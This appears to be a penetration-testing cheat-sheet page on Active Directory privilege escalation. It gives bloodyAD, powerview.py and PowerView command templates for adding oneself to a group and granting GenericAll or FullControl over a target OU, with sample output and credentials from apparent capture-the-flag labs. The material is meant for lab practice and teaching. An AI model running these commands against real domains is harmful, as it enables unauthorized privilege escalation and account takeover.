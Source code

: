 ```yaml
---
title: "AddSelf"
date: 2025-7-23
tags: ["Powerview", "Genericall", "AddMember", "Group Policy", "Domain Controller", "Addself", "Active Directory", "Windows", "BloodyAD"]
---
```


### Privesc #1: Add Self to Group (From Linux)

{{< tab set1 tab1 >}}bloodyAD{{< /tab >}}
{{< tab set1 tab2 >}}powerview.py{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Add Self to Group

```console
# Password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add groupMember '<GROUP>' '<USER>'
```

```console {class="sample-code"}
$ bloodyAD -d rebound.htb -u 'oorend' -p '1GR8t@$$4u' --host 10.10.11.231 add groupMember SERVICEMGMT 'oorend'
[+] oorend added to SERVICEMGMT
```

```console
# NTLM
bloodyAD -d <DOMAIN> -u '<USER>' -p '<HASH>' -f rc4 -k --host <DC> add groupMember '<GROUP>' '<USER>'
```

```console
# Kerberos
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' -k --host <DC> add groupMember '<GROUP>' '<USER>'
```

```console {class="sample-code"}
$ bloodyAD -d absolute.htb -u 'm.lovegod' -p 'AbsoluteLDAP2022!' -k --host dc.absolute.htb add groupMember 'NETWORK AUDIT' 'm.lovegod'
[+] m.lovegod added to NETWORK AUDIT
```

#### 2. Add GenericAll over Target Group

```console
# Password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<USER>'
```

```console {class="sample-code"}
$ bloodyAD -d rebound.htb -u 'oorend' -p '1GR8t@$$4u' --host 10.10.11.231 add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' 'oorend'
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB
```

```console
# Kerberos
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' -k --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<USER>'
```

```console {class="sample-code"}
$ bloodyAD -d absolute.htb -u 'm.lovegod' -p 'AbsoluteLDAP2022!' -k --host dc.absolute.htb add genericAll 'NETWORK AUDIT' 'm.lovegod' 
[+] m.lovegod has now GenericAll on NETWORK AUDIT
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Connect

```console
sudo ntpdate -s <DC_IP> && powerview '<DOMAIN>/<USER>:<PASSWORD>@<TARGET_DOMAIN>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc01.rebound.htb && powerview 'rebound.htb/oorend:1GR8t@$$4u@dc01.rebound.htb'
Logging directory is set to /home/kali/.powerview/logs/dc01.rebound.htb
[2024-09-24 07:11:06] Channel binding is enforced!
(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]
PV > 
```

#### 2. Add Self to Group

```console
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>'
```

```console {class="sample-code"}
PV > Add-DomainGroupMember -Identity 'servicemgmt' -Members 'oorend'
[2024-09-24 07:13:17] User oorend successfully added to servicemgmt
```

```console
# Check
Get-DomainGroupMember -Identity '<GROUP>'
```

```console {class="sample-code"}
PV > Get-DomainGroupMember -Identity 'servicemgmt'
GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : ppaul
MemberDistinguishedName     : CN=ppaul,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-1951

---[SNIP]---

GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : oorend
MemberDistinguishedName     : CN=oorend,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-7682
```

#### 4. Add Fullcontrol over Target Group

```console
# Exit and login again to apply changes
Add-DomainObjectAcl -TargetIdentity '<TARGET_GROUP>' -PrincipalIdentity '<USER>' -Rights fullcontrol
```

```console {class="sample-code"}
PV > Add-DomainObjectAcl -TargetIdentity 'service users' -PrincipalIdentity 'oorend' -Rights fullcontrol
[2024-09-24 07:37:24] [Add-DomainObjectACL] Found target identity: OU=Service Users,DC=rebound,DC=htb
[2024-09-24 07:37:24] [Add-DomainObjectACL] Found principal identity: CN=oorend,CN=Users,DC=rebound,DC=htb
[2024-09-24 07:37:24] Adding FullControl to OU=Service Users,DC=rebound,DC=htb
[2024-09-24 07:37:24] DACL modified successfully!
```

```console
# Check
Get-DomainObjectAcl -Identity '<TARGET_USER>' -Where 'SecurityIdentifier contains <USER>'
```

```console {class="sample-code"}
PV > Get-DomainObjectAcl -Identity 'winrm_svc' -Where 'SecurityIdentifier contains oorend'
ObjectDN                    : CN=winrm_svc,OU=Service Users,DC=rebound,DC=htb
ObjectSID                   : S-1-5-21-4078382237-1492182817-2568127209-7684
ACEType                     : ACCESS_ALLOWED_ACE
ACEFlags                    : CONTAINER_INHERIT_ACE, INHERITED_ACE, OBJECT_INHERIT_ACE
ActiveDirectoryRights       : FullControl
AccessMask                  : 0xf01ff
InheritanceType             : None
SecurityIdentifier          : oorend (S-1-5-21-4078382237-1492182817-2568127209-7682)
```

<small>*Ref: [powerview.py](https://github.com/aniqfakhrul/powerview.py)*</small>

{{< /tabcontent >}}

### Privesc #1: Add Self to Group (From Windows)

{{< tab set2 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add Self to Group

```console
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>' -Credential $Cred
```

```console {class="sample-code"}
PS C:\programdata> Add-DomainGroupMember -Identity 'security engineers' -Members 'user' -Credential $Cred
Add-DomainGroupMember -Identity 'security engineers' -Members 'user' -Credential $Cred
```

```console
# Check
Get-DomainGroupMember -Identity '<GROUP>'
```

```console {class="sample-code"}
PS C:\programdata> Get-DomainGroupMember -Identity 'security engineers'
Get-DomainGroupMember -Identity 'security engineers'

---[SNIP]---

GroupDomain             : corp.local
GroupName               : Security Engineers
GroupDistinguishedName  : CN=Security Engineers,CN=Users,DC=corp,DC=local
MemberDomain            : corp.local
MemberName              : user
MemberDistinguishedName : CN=user,OU=Contractors,OU=Corp,DC=corp,DC=local
MemberObjectClass       : user
MemberSID               : S-1-5-21-2291914956-3290296217-2402366952-1114
```

{{< /tabcontent >}}